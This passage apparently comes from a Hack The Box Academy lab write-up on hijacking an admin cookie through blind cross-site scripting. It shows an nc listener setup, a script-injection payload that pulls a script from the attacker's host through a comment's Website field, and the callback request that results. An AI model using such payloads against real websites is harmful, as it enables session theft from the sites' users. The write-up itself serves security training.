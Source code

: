 ### "What is the value of the 'flag' cookie?"

After spawning the target machine, students need to visit it's`/assessment` page and notice that it says "comments must be approved by an admin":

![[HTB Solutions/CPTS/z. images/d39e709e6f4cc9e326a8faa6ae18b0db_MD5.jpg]]

Therefore, students need to hijack the cookie of the admin. Scrolling down, students will notice that there is a post named "Welcome to Security Blog", thus, they need to click on it:

![[HTB Solutions/CPTS/z. images/933b1e47d29ea96f3cade2b981dfa93d_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/223a69defa291c917169688395bef937_MD5.jpg]]

Students need to test all the fields with XSS payloads, however, they will come to know that the "Website" field is vulnerable to a blind XSS; to test the fields, students first need to start an `nc` listener:

Code: shell

```shell
nc -nvlp PWNPO
```

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, they need to use the payload `'><script src="http://PWNIP:PWNPO/FieldName"></script>` in the all of the fields to see which ones will request a file to the `nc` listener:

![[HTB Solutions/CPTS/z. images/c4cd6f9c0e80544de742625f8e3c8dde_MD5.jpg]]

However, the name and email fields are to be left out:

![[HTB Solutions/CPTS/z. images/0d78773b0898381a576290898820a153_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/496c44ee847708b6b9db7ca5cf736561_MD5.jpg]]

After clicking on "Post Comment", students will notice that the request came for `/WebsiteField`:

```javascript
Ncat: Connection from 10.129.43.173.
Ncat: Connection from 10.129.43.173:42254.
GET /WebsiteField HTTP/1.1
Host: 10.10.14.41:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4472.101 Safari/537.36
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
